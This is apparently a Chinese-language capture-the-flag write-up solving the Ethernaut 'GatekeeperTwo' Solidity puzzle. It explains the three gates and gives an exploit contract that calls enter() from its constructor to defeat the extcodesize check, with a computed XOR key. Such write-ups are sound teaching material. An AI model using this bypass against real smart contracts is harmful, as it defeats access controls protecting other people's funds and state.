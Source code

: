 ## 0x01 Task

```javascript
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## 0x02 Solution

`gateOne()`白给

`gateThree()`

`_gateKey = (bytes8)(uint64(keccak256(address(this))) ^ (uint64(0) - 1))`

比较有技巧性的是 `gateTwo()` ，用了内联汇编的写法。

解释一下里面的名词：

> - `caller` : `Get caller address.`
> - `extcodesize` : `Get size of an account’s code.`

在执行初始化代码（构造函数），而新的区块还未添加到链上的时候，新的地址已经生成，然而代码区为空。此时，调用 `EXTCODESIZE()` 返回为 0

那么，只需要在第三方合约的构造函数中来调用题目合约中的 `enter()` 即可满足条件。

exp：

```javascript
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract Attack {

    address instance_address = 0xe8c0af8c1c656f5489f6bcc647361f4700cc5702;
    GatekeeperTwo target = GatekeeperTwo(instance_address);

    function Attack(){
        target.enter((bytes8)(uint64(keccak256(address(this))) ^ (uint64(0) - 1)));
    }

}
```

